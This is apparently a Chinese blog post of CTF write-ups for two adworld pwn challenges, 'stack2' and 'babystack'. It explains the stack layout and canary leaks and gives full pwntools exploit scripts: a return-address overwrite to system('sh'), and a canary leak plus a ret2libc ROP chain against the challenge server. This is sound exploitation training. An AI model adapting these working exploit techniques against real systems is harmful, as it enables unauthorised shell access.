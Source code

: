 ```yaml
---
title: adworld_pwn部分writeUp
date: 2019-06-03 22:10:20
tags:
    - thinking
---
```


### stack2  

---

&emsp;&emsp;首先checksec一下发现有canary，然后托到ida里看一下，发现大部分变量都是 **unsigned int** 类型，考虑到可能会有整数溢出。接着我们发现可以通过 **change number** 选项来直接修改栈上的数据，因此我们想到直接修改返回地址，如图：  

![stack2_1](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_1.jpg?raw=true)

&emsp;&emsp;接着我们发现 **hackhere** 函数，里面是直接调用的  

```c
system("/bin/bash");
```

![stack2_2](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_2.jpg?raw=true)
&emsp;&emsp;因此，我们可以直接将返回地址修改为这里，我们注意到数组的类型是 **char** ，因此在发送payload的时候可以直接按照小端序字符逐位发送。

&emsp;&emsp;但是这里有一个坑点，我们通过静态分析发现数组距离 **return_addr** 的位置为0x74：  

![stack2_3](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_3.jpg?raw=true)  

&emsp;&emsp;但是我们在实际动态调试的时候发现其实际偏移为0x84，这里是因为，在进入main函数时进行了一步esp的对齐：  

```assembly
#开头
|           ; arg int arg_4h @ esp+0x4
|           0x080485d0      8d4c2404       lea ecx, dword [arg_4h]     ; 4
|           0x080485d4      83e4f0             and esp, 0xfffffff0
|           0x080485d7      ff71fc               push dword [ecx - 4]
|           0x080485da      55                      push ebp
|           0x080485db      89e5                 mov ebp, esp
|           0x080485dd      51                      push ecx

----------------------------------------------------------------
#结尾
|           0x080488eb      8b4dfc         mov ecx, dword [local_4h]
|           0x080488ee      c9             leave
|           0x080488ef      8d61fc         lea esp, dword [ecx - 4]
\           0x080488f2      c3             ret

```

&emsp;&emsp;其实这里没有必要深入计算，因为动态调试可以算出偏移为0x84,但是作为一个知识点，我们还是要讨论一下这个main函数的返回方式，我们遇到过很多main函数通过ecx进行返回，并且有esp对其的过程。  

&emsp;&emsp;这一次，首先将 **$esp + 4** 放入ecx，然后 `and esp,0xfffffff0` 的作用是将esp的后4位清零(一个16进制位代表4个2进制位)，然后将 **$ecx - 4** 压入栈中。注意，这里的 **$ecx - 4** 实际上就是return_addr,因为在进入main函数时，esp的位置就是return_addr,然后 `lea ecx, dword [arg_4h]` 这条语句将其实是把第一个参数的地址传给ecx，然后esp对齐后将return_addr压入栈中，然后就是正常的保存栈状态的操作。由于对齐esp的操作导致栈被拉长，拉伸的长度只能动态调试确定，此时栈大概是这样：  

```c
						high                                |		arg_4		 |
											 |	return_addr        |             return_addr 1                                  
											 |	 .....................	  |

after align	               							     some span

											 |		ecx - 4		  |				return_addr  2
											 |		    ebp              |
											 |                  ecx               |
			 			low                                  |      ....................         |
```


&emsp;&emsp;返回的时候就恢复ecx的值然后直接利用 **[ecx - 4]** 回到return_addr1的位置。

因此，payload如下：  

```python
from pwn import *

context.log_level = "debug"
system_addr = 0x804859B
#sh = process("./stack2")
sh = remote("111.198.29.45",53413)

sh.recv()
sh.sendline('1')
sh.recv()
sh.sendline('1')

def fuck(index, value):
    sh.sendline("3")
    sh.recv()
    sh.sendline(str(index))
    sh.recv()
    sh.sendline(str(value))
    sh.recv()

fuck(0x84,0x9b)
fuck(0x85,0x85)
fuck(0x86,0x04)
fuck(0x87,0x08)

sh.interactive()
```

&emsp;&emsp;但是打过去之后发现系统提示:  
```bash
"/usr/bin/bash" not found  
```

&emsp;&emsp;所以我们只好直接调用 **system**函数，并将sh传参给它，因此payload如下：  
```python
#!/usr/bin/env python
from pwn import *

context.log_level = "debug"

#sh = process("./stack2")
sh = remote("111.198.29.45",53413)

sys_addr = 0x0804859b

sh.recv()
sh.sendline('1')
sh.recv()
sh.sendline('1')

def fuck(index, value):
    sh.sendline("3")
    sh.recv()
    sh.sendline(str(index))
    sh.recv()
    sh.sendline(str(value))
    sh.recv()

fuck(0x84, 0x50)
fuck(0x85, 0x84)
fuck(0x86, 0x04)
fuck(0x87, 0x08)
#中间流出了4个字节，用于存放 fake_return_address
fuck(0x8c, 0x87)           #这里我们发现地址是奇数位，是因为我们直接把bash拆开成了sh
fuck(0x8d, 0x89)
fuck(0x8e, 0x04)
fuck(0x8f, 0x08)

sh.sendline("5")

sh.interactive()
```

### pwn1 babystack  

&emsp;&emsp;checksec后我们发现程序开启了canary，大概要进行canary的泄漏。  

![checksec](../pictures/babstack_1.png)  

&emsp;&emsp;在对main函数进行静态分析后我们发现了一个明显的溢出点，** read()** 函数存在经典溢出，而且在  **case 2** 处我们可以通过 **puts()** 函数泄露canary的值。  

![overflow](../pictures/babstack_2.png)

&emsp;&emsp;对于canary的泄漏方式，最简单的一种是覆盖其最低为的 *\x00* 字节，防止截断，然后通过puts将其泄漏出来。  

&emsp;&emsp;仔细审计程序之后，我们基本清楚了攻击流程，首先这是一个经典的菜单类程序，通过case 1我们可以覆盖栈上的数据，因此，第一步我们先填充padding来覆盖canary的低位字节经计算offset为136个字节。

![canary](../pictures/babstack_3.png)

&emsp;&emsp;接着case 2打印canary，第二步，我们要通过rop来泄露system与bin_sh的地址。查询后发现了比较好用的 `pop rdi ; ret` .这个时候payload已经基本清楚了，用puts泄漏计算偏移，然后case 3退出是返回到main，接着case 3退出返回到system。  

```python
#!/usr/bin/env python
from pwn import *

#  sh = process('./babystack')
sh = remote('111.198.29.45',35646) 
context.log_level = 'debug'
elf = ELF('./babystack')
libc = ELF('./libc-2.23.so')

puts_got = elf.got['puts']
puts_plt = elf.symbols['puts']
puts_libc = libc.symbols['puts']
system_libc = libc.symbols['system']
pop_rdi = 0x00400a93
main = 0x00400908
log.info('puts_got ' + hex(puts_got))
log.info('puts_plt ' + hex(puts_plt))
log.info('puts_libc ' + hex(puts_libc))

padding = 'a' * 136

#get_canary
sh.recvuntil('>> ')
sh.sendline('1')
sh.sendline(padding)
sh.recvuntil('>> ')
sh.sendline('2')
sh.recvuntil('a' * 136)
canary = u64(sh.recv()[:8]) - 0xa
log.info('canary ' + hex(canary))

#get_system
def getTarget(target, canary):
    payload = 'a' * (0x90 - 0x8) + p64(canary) + 'b' * 8 + p64(pop_rdi) + p64(target) + p64(puts_plt)
    payload += p64(main)
    sh.recvuntil('>> ')
    sh.sendline('1')
    sleep(0.01)
    sh.sendline(payload)
    sh.recvuntil('>> ')
    sh.sendline('3')
    #  sh.recvuntil('b'*8)
    addr = u64(sh.recv()[:6].ljust(8, '\x00'))
    return addr

sh.sendline('\n')
sh.recv()
puts_addr = getTarget(puts_got, canary)
log.info('puts_addr ' + hex(puts_addr))

#get_offset_system_bin_sh 
offset = puts_addr - puts_libc
system_addr = system_libc + offset 
bin_sh = offset + libc.search("/bin/sh").next()
log.info('system_addr ' + hex(system_addr))
log.info('bin_sh ' + hex(bin_sh))

#fuckup
sh.sendline('\n')
sh.recv()
sh.sendline('1')
payload = 'a' * (0x90 - 0x8) + p64(canary) + 'b' * 8 + p64(pop_rdi) + p64(bin_sh) + p64(system_addr)
payload += p64(main)
sh.sendline(payload)
sh.recv()
sh.sendline('3')

sh.interactive()
```
&emsp;&emsp;在输入输出那里比较坑，需要多调几下。









